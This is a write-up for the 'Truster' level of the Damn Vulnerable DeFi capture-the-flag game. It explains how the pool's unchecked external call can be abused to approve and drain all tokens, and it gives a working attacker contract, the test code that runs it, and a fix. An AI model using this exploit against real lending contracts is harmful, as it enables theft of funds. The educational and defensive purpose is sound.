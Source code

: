 # Truster

## Challenge

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

## Solution

Let us observe the flashloan function inside `TrusterLenderPool.sol`

```solidity
function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

This function takes the amount to borrow, the address of the borrower contract, the address of the target contract the flashloan should interact with and the data to send to that target contarct. We see that the only way the execution of this function does not fail is that the borrower pays back the loan.

The only place to exploit this contract is then using the call to the `target` contract. In this case `functionCall` is a method implemented for addresses of the type `Address` which is a safer type implementes by OpenZeppelin. It implements the low level `call` method, so the data we should pass to it must include a call to a function implemented in `target`.

If we think for a moment, `target` can be any contract we want, and the call of the function within `target` will be signed by the `TrustLenderPool.sol` contract. This means that this contract is blindly signing any possible transaction. Let use this to steal all its funds. Recall that `IERC20` tokens have several ways of transfering. One of them is by the `approve` - `transferFrom` sequence. That is, the sender first approve a certain amount of tokens for the receiver to take, and then the receiver uses `transferFrom` to claim them. Then we only need `TrustLenderPool.sol` to sign an approval for a big amount and we can just take it. We create an attacker contract, that we call [`AttackerTruster.sol`](./AttackerTruster.sol). The main function looks like this

```solidity
    function attack(address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature('approve(address,uint256)', address(this), 2**256 - 1);
        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool, msg.sender, token.balanceOf(_pool));
    }
```

First we create an instance of both the pool and the DVT token to their respective addresses. Then we prepare the data to call the `approve` function for the maximum value of a `uint256` variable. We call `flashLoan` with the corresponding target to be the DVT token address and the data we defined before. Here we could create a contract that just pays back the borrowed amount, but since the borrowed amount is allowed to be 0 we just simplify it by asking 0, and then we do not need to payback anything. Once this function is executed, `TrustLenderPool.sol` has given us the approval to take all its tokens, and that is what we do in the last line.

To run the attack we complete the code in [truster.challenge.js](../../test/truster/truster.challenge.js) by adding

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE  */
  const Attacker = await ethers.getContractFactory("AttackerTruster", attacker)
  attackerContract = await Attacker.deploy()
  await attackerContract.attack(this.pool.address, this.token.address)
})
```

## Solving the issue

We have seen that the issue here was blindly signing transactions. To solve the issue we should just remove the `target` and `data` parameters. As an issuer of flashloans we do not care who is the contract using the borrowed funds, so this logic should be implemented iin the borrower contract.
